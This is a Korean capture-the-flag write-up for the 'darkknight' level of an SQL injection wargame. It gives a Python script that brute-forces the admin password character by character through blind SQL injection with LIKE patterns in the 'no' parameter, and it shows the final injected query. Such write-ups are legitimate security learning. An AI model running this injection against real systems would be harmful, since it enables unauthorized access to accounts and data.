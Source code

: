 따라서 이전 문제를 풀 듯 한글자씩 찾아가면 되겠다.

<br>


## writeup

이번 문제에서는 "no" 값을 작성해야 하는 것 외에는 이전 개념들이 모두 사용되었다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(uno):
	url = f'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw=1&no={uno}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		uno = f'1 or id like "admin" and pw like \"{res}'+chr(i)+'%\" --+'
		response = my_request(uno)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

![image-20220609123818135](../img/image-20220609123818135.png)

전송되는 쿼리의 주 파라미터가 달라지는 것 외에는 크게 다를 것이 없었다.

```
pw=1&no=1 or id like "admin" and pw like "0%"
```

최종적으로 이러한 쿼리를 이용해 성공한 것이다.

![image-20220609124044878](../img/image-20220609124044878.png)
